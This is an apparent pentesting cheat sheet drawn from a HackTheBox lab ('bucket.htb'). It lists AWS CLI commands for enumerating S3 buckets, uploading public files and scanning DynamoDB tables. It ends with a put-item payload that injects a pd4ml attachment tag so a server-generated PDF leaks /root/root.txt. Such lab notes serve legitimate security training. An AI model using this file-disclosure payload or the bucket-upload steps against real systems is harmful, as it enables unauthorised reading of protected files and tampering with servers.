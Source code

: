 ```yaml
---
icon: aws
---
```


# AWS

<details>

<summary><mark style="color:orange;"><strong><code>aws-cli</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:red;">**`Set it up remotely`**</mark>

{% code title="Set the ID" overflow="wrap" %}
```sh
aws configure set aws_access_key_id health
```
{% endcode %}

{% code title="Set the key" overflow="wrap" %}
```sh
aws configure set aws_secret_access_key 444af250749d
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">**`Enumeration`**</mark>

{% code title="List the buckets romotetly" overflow="wrap" %}
```sh
aws s3 ls --endpoint-url http://s3.bucket.htb/
```
{% endcode %}

{% code title="List buckets locally" overflow="wrap" %}
```sh
aws s3 ls s3://BUCKET_Name/
```
{% endcode %}

{% code title="List the bucket's content" overflow="wrap" %}
```sh
aws s3 ls s3://adserver --endpoint-url http://s3.bucket.htb/
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
{% code title="Upload a file" overflow="wrap" %}
```sh
aws s3 cp FILE_NAME s3://BUCKET_NAME/
```
{% endcode %}

{% code title="Upload it and make it public" overflow="wrap" %}
```sh
aws s3 cp tokyo s3://adserver/ --endpoint-url http://s3.bucket.htb --acl public-read
```
{% endcode %}
{% endhint %}

{% code title="Remove a file" overflow="wrap" %}
```sh
aws s3 rm s3://Bucket_Name/FILE_NAME
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>Dynamodb</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:purple;">**Set the**</mark> <mark style="color:orange;">**`Dynamodb`**</mark> <mark style="color:purple;">**instance**</mark>

{% code title="Set the ID" overflow="wrap" %}
```sh
export AWS_ACCESS_KEY_ID=health
```
{% endcode %}

{% code title="Set the key" overflow="wrap" %}
```sh
export AWS_SECRET_ACCESS_KEY=444af250749d
```
{% endcode %}

{% code title="Set the region" overflow="wrap" %}
```sh
export AWS_DEFAULT_REGION=us-east-1
```
{% endcode %}

{% code title="Set the endpoint" overflow="wrap" %}
```sh
export AWS_ENDPOINT_URL=http://localhost:4566
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">**`Enumeration`**</mark>

{% code title="List the tables" overflow="wrap" %}
```sh
aws dynamodb list-tables --endpoint-url http://localhost:4566
```
{% endcode %}

{% code title="List the users" overflow="wrap" %}
```sh
aws dynamodb scan --table-name users --endpoint-url http://localhost:4566
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
{% code title="Create a table" overflow="wrap" %}
```sh
aws --endpoint-url http://s3.bucket.htb dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:purple;">**Create an**</mark> [<mark style="color:red;">**`item`**</mark>](#user-content-fn-1)[^1]

{% code overflow="wrap" %}
```sh
aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src=\"/root/root.txt\" description=\"attachment sample\" icon=\"Paperclip\"/></html>"}}'
```
{% endcode %}
{% endhint %}

</details>

[^1]: [<mark style="color:red;">**`In this example in order to create a malicious PDF we need to meet a condition, that is triggering an alert on a DynamoDB, when that alert is triggered a PDF and HTML files will be generated by a PHP web-server`**</mark>](#user-content-fn-2)[^2]
